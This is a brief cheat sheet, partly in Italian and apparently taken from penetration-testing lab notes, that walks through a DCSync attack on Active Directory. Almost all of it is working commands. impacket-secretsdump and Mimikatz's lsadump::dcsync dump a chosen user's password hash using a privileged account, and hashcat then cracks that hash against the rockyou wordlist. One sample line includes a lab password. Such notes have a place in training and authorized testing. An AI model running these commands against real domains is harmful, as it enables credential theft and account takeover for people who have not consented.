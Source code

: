 ### From kali

Using _impacket-secretsdump_ to perform the attack and _hashcat_ to get the password:

```bash
impacket-secretsdump -just-dc-user $USER_NAME_TO_REQUEST $DOMAIN/$HIGH_PRIVILEGE_ACCOUNT:"$PASSWORD"@$TARGET_IP

# esempio
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70

# crack degli hash trovati
hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

### From Windows

Utilizzo di _Mimikatz_ su windows per eseguire un attacco _dcsync_:

```bash
.\mimikatz.exe

lsadump::dcsync /user:$DOMAIN\$USER_NAME_TO_REQUEST

lsadump::dcsync /user:corp\dave
```

Once you have the hash using _Mimikatz_ you need to use _hashcat_ to get the password.